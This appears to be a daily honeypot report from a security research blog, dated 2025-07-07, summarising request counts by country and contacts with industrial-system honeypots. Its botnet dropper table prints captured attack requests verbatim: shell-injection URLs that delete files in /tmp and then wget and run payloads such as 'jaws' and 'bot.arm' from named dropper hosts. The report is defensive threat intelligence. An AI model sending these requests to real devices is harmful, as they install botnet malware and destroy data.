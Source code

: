 ```yaml
---
title: "Report: 2025-07-07 "
date: 2025-07-07
desciption: "Report: 2025-07-07" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-07 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 15 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 286 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1614 requests were recorded during the day, originating from 15 different countries, with a peak of 745 requests coming from SG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| KR               | Germany            |
| US               | Germany            |
| DE               | Germany            |
| US               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                      |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------|
| 8.222.186.148   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 118.193.61.245  | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 207.167.66.226  | GET /shell.cgi?wget+http%3A%2F%2F195.26.230.140%2Fbot.arm%3Bchmod+%2Bx+bot.arm%3B.%2Fbot.arm+netwave HTTP/1.1                |
| 8.222.162.163   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |
| 8.222.145.211   | GET /shell?cd+/tmp;rm+-rf+*;wget+ scamanje.stresserit.pro/jaws;sh+/tmp/jaws HTTP/1.1                                         |